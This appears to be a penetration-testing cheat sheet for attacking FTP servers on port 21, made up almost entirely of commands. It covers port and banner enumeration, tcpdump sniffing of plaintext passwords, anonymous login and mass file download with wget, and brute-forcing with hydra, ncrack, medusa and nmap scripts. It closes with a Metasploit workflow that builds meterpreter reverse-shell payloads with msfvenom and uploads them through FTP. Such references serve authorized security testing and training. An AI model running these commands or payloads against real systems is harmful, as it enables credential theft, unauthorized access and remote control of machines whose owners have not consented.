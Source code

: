 # 21 - FTP
## NMAP FTP Enumeration

    $ nmap -p 21 [TARGET_IP] 

## Banner Grabbing 

    $ telnet [TARGET_IP] 21 
    $ nc -vn [TARGET_IP] 21 

## NMAP Unauth Enum 
Checks if an FTP server allows anonymous logins.

    $ sudo nmap -sV -p21 -sC -A [TARGET_IP]

## TCPDump FTP Traffic 

    $ tcpdump -vvAs0 port ftp or ftp-data

Capture credentials in plain text through unencrypted traffic (HTTP, FTP, TELNET)

    $ tcpdump -A -i eth0 'port http or port ftp or port telnet' | grep -i 'user\|pass\|login'
    
## FTP Default Credentials

    $ ncrack -U user.txt -P pass.txt --pairwise -oX - ftp://[TARGET_IP]:21,to=300

## FTP Connection 
Access the host utilizing FTP

    $ ftp [TARGET_IP]
    $ ftp@[TARGET_IP] 
    $ ccftp [TARGET_IP]

## FTP Access: Anonymous 
FTP login attempt on host with the user anonymous.

    $ ftp [TARGET_IP]username:anonymous

## Available Metasploit Options

    auxiliary/scanner/ftp/anonymous
    auxiliary/scanner/ftp/ftp_version
    auxiliary/scanner/ftp/ftp_login
    exploit/unix/ftp/proftpd_133c_backdoor

## Browser Connection 

    ftp://anonymous:anonymous@[TARGET_IP] 

## Download all files from FTP 

    $ wget -m ftp://anonymous:anonymous@[TARGET_IP]
    $ wget -m --no-passive ftp://anonymous:anonymous@[TARGET_IP]

## Connect to FTP using starttls 

    $ lftp
    $ lftp :~> set ftp:ssl-force true
    $ lftp :~> set ssl:verify-certificate no
    $ lftp :~> connect [TARGET_IP] 
    $ lftp [TARGET_IP]:~> login                        

Usage: login <user|URL> [<pass>]

    $ lftp [TARGET_IP]:~> login username Password 

### If username/password is found:

    1. Connect client to FTP Server through WinSCP
    2. Protocol to: FTP
    3. Encryption To: No Encryption
    4. Host name: IP of the FTP Server
    5. Port: 21
    6. Username and Password: anonymous: anonymous
    7. Click on login
 
## FTP Brute Force 

    $ hydra -l root -P passwords.txt [-t 32] [TARGET_IP] ftp
    $ ncrack -p 21 --user root -P passwords.txt [TARGET_IP] [-T 5]
    $ medusa -u root -P 500-worst-passwords.txt -h [TARGET_IP] -M ftp
    $ nmap -Pn -n -p21 --script +ftp-anon,+ftp-brute --script-args brute.mode=creds,brute.credfile=creds.txt,brute.useraspass=false,ftp-anon.maxlist=[TARGET_IP]

## Metasploit - Upload File through FTP (Windows)
    1. > Use exploit/multi/handler 
        Options 
        Set payload windows/meterpreter/reverse_tcp
        Set lhost
        Run
        
    2. Open separate terminal and create custom payloads:
        $ msfvenom -P windows/meterpreter/reverse_tcp LHOST=<IPAddress> LPORT=4444 -f aspx -o <filename.aspx>
        $ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf
        $ msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf 
        
    3. $ FTP [TARGET_IP] 21
        > Username= anonymous, password = none
        > Put <filename.aspx>
